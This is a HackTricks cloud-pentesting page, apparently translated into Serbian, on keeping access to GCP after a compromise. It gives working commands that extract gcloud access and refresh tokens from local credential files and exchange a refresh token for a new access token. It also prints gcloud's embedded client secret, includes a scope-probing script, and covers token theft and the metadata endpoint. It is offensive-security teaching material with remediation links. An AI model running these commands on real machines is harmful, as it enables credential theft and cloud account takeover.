 # GCP - Non-svc Persistance

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

Ovo su korisne tehnike kada ste, na neki način, kompromitovali neke GCP kredencijale ili mašinu koja radi u GCP okruženju.

## Token Hijacking

### Authenticated User Tokens

Da biste dobili **trenutni token** korisnika, možete pokrenuti:

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/access_tokens.db "select access_token from access_tokens where account_id='<email>';"
```
{% endcode %}

Pogledajte na ovoj stranici kako **direktno koristiti ovaj token koristeći gcloud**:

{% embed url="https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#id-6440-1" %}

Da biste dobili detalje za **generisanje novog pristupnog tokena** pokrenite:

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/credentials.db "select value from credentials where account_id='<email>';"
```
{% endcode %}

Moguće je pronaći refresh tokens u **`$HOME/.config/gcloud/application_default_credentials.json`** i u **`$HOME/.config/gcloud/legacy_credentials/*/adc.json`**.

Da biste dobili novi osveženi access token sa **refresh token**, client ID, i client secret pokrenite:

{% code overflow="wrap" %}
```bash
curl -s --data client_id=<client_id> --data client_secret=<client_secret> --data grant_type=refresh_token --data refresh_token=<refresh_token> --data scope="https://www.googleapis.com/auth/cloud-platform https://www.googleapis.com/auth/accounts.reauth" https://www.googleapis.com/oauth2/v4/token
```
{% endcode %}

Validnost refresh tokena može se upravljati u **Admin** > **Security** > **Google Cloud session control**, i po defaultu je postavljena na 16h, iako može biti postavljena da nikada ne istekne:

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

### Auth flow

Tok autentifikacije kada se koristi nešto poput `gcloud auth login` će otvoriti prompt u pretraživaču i nakon prihvatanja svih opsega pretraživač će poslati zahtev kao što je ovaj na http port otvoren od strane alata:
```
/?state=EN5AK1GxwrEKgKog9ANBm0qDwWByYO&code=4/0AeaYSHCllDzZCAt2IlNWjMHqr4XKOuNuhOL-TM541gv-F6WOUsbwXiUgMYvo4Fg0NGzV9A&scope=email%20openid%20https://www.googleapis.com/auth/userinfo.email%20https://www.googleapis.com/auth/cloud-platform%20https://www.googleapis.com/auth/appengine.admin%20https://www.googleapis.com/auth/sqlservice.login%20https://www.googleapis.com/auth/compute%20https://www.googleapis.com/auth/accounts.reauth&authuser=0&prompt=consent HTTP/1.1
```
Then, gcloud će koristiti stanje i kod sa nekim hardkodovanim `client_id` (`32555940559.apps.googleusercontent.com`) i **`client_secret`** (`ZmssLNjJy2998hD4CTg2ejr2`) da dobije **finalne podatke o refresh token-u**.

{% hint style="danger" %}
Napomena da je komunikacija sa localhost-om u HTTP-u, tako da je moguće presresti podatke da bi se dobio refresh token, međutim, ovi podaci su validni samo jednom, tako da bi to bilo beskorisno, lakše je samo pročitati refresh token iz fajla.
{% endhint %}

### OAuth Scopes

Možete pronaći sve Google scope-ove na [https://developers.google.com/identity/protocols/oauth2/scopes](https://developers.google.com/identity/protocols/oauth2/scopes) ili ih dobiti izvršavanjem:

{% code overflow="wrap" %}
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-A/\-\._]*' | sort -u
```
{% endcode %}

Moguće je videti koje opsege aplikacija koju **`gcloud`** koristi za autentifikaciju može podržati pomoću ovog skripta:
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope         \r"
if ! curl -v "https://accounts.google.com/o/oauth2/auth?response_type=code&client_id=32555940559.apps.googleusercontent.com&redirect_uri=http%3A%2F%2Flocalhost%3A8085%2F&scope=openid+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.email+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcloud-platform+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fappengine.admin+$scope+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fsqlservice.login+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcompute+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Faccounts.reauth&state=AjvFqBW5XNIw3VADagy5pvUSPraLQu&access_type=offline&code_challenge=IOk5F08WLn5xYPGRAHP9CTGHbLFDUElsP551ni2leN4&code_challenge_method=S256" 2>&1 | grep -q "error"; then
echo ""
echo $scope
fi
done
```
Nakon izvršavanja, provereno je da ova aplikacija podržava ove opsege:
```
https://www.googleapis.com/auth/appengine.admin
https://www.googleapis.com/auth/bigquery
https://www.googleapis.com/auth/cloud-platform
https://www.googleapis.com/auth/compute
https://www.googleapis.com/auth/devstorage.full_control
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/userinfo.email
```
interesantno je videti kako ova aplikacija podržava **`drive`** opseg, što bi moglo omogućiti korisniku da eskalira sa GCP na Workspace ako napadač uspe da natera korisnika da generiše token sa ovim opsegom.

**Pogledajte kako da** [**zloupotrebite ovo ovde**](../gcp-to-workspace-pivoting/#abusing-gcloud)**.**

### Service Accounts

Baš kao i sa autentifikovanim korisnicima, ako uspete da **kompromitujete privatni ključ fajl** servisa naloga, moći ćete da mu **pristupate obično koliko god želite**.\
Međutim, ako ukradete **OAuth token** servisa naloga, to može biti još zanimljivije, jer, čak i ako su po defaultu ovi tokeni korisni samo sat vremena, ako **žrtva obriše privatni api ključ, OAuth token će i dalje biti važeći dok ne istekne**.

### Metadata

Očigledno, dokle god ste unutar mašine koja radi u GCP okruženju, moći ćete da **pristupite servisu naloga pridruženom toj mašini kontaktirajući metadata endpoint** (imajte na umu da su OAuth tokeni kojima možete pristupiti na ovom endpoint-u obično ograničeni opsegom).

### Remediations

Neke remedijacije za ove tehnike su objašnjene na [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

## References

* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1)
* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

{% hint style="success" %}
Naučite i vežbajte AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Naučite i vežbajte GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Pogledajte [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitter-u** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Delite hakovanje trikove podnošenjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
